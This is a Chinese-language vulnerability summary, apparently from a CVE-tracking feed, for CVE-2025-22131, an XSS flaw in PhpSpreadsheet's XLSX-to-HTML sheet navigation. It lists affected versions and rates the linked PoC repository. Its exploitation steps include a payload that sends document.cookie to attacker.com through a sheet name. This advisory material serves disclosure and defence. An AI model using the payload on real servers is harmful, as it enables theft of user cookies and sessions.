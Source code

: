 ## CVE-2025-22131-PhpSpreadsheet-XSS

**漏洞编号:** CVE-2025-22131

**漏洞类型:** 跨站脚本 (XSS)

**影响应用:** PhpSpreadsheet

**危害等级:** 中危，可能导致cookie泄露和权限提升

**影响版本:** < 1.29.8, >= 2.2.0, < 2.3.6, >= 2.0.0, < 2.1.7, >= 3.0.0, < 3.8.0

**利用条件:** 需要用户交互（打开恶意XLSX文件），服务器端允许上传XLSX文件并以HTML形式展示

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

该漏洞存在于PhpSpreadsheet库的`generateNavigation()`函数中，该函数用于将XLSX文件转换为HTML表示形式时，未正确转义sheet名称，导致XSS漏洞。

**有效性：**
提供的PoC代码有效。它展示了如何通过创建一个包含多个sheet的XLSX文件，然后修改sheet名称为XSS payload，再重新打包XLSX文件，最后上传到存在漏洞的服务器上来触发XSS漏洞，进而窃取用户的Cookie。

**投毒风险：**
`gen.sh`脚本用于自动化生成恶意XLSX文件，其中包含从命令行参数获取的URL，并将document.cookie发送到该URL。虽然此脚本本身不是恶意软件，但如果攻击者控制了包含此脚本的仓库，并将其修改为包含额外的恶意代码（例如下载和执行其他payload），则可能存在投毒风险。这个脚本依赖于用户提供的URL，如果提供的URL本身就是恶意的，那么也会导致风险。总体来说，投毒风险较低，主要取决于脚本的使用方式和所依赖的外部资源。

**利用方式：**
1.  创建一个包含多个sheet的XLSX文件。
2.  解压XLSX文件。
3.  修改`xl/workbook.xml`文件，将sheet名称替换为包含XSS payload的字符串，例如`<img src=x onerror=fetch('http://attacker.com/?'+document.cookie)>`。
4.  重新打包XLSX文件。
5.  上传恶意XLSX文件到存在漏洞的服务器。
6.  当用户打开或预览包含恶意XLSX文件的页面时，XSS payload将被执行，攻击者可以窃取用户的Cookie或其他敏感信息。

根据搜索引擎结果,多家安全机构确认了该漏洞的存在,并且提供了缓解步骤,但是没有发现公开的直接可用的exp。因此,poc的有效性较高。
Red Hat表示不受影响，可能因为其产品中未使用受影响的PhpSpreadsheet版本或已采取了缓解措施。


**项目地址:** [ZzN1NJ4/CVE-2025-22131-PoC](https://github.com/ZzN1NJ4/CVE-2025-22131-PoC)

**漏洞详情:** [CVE-2025-22131](https://nvd.nist.gov/vuln/detail/CVE-2025-22131)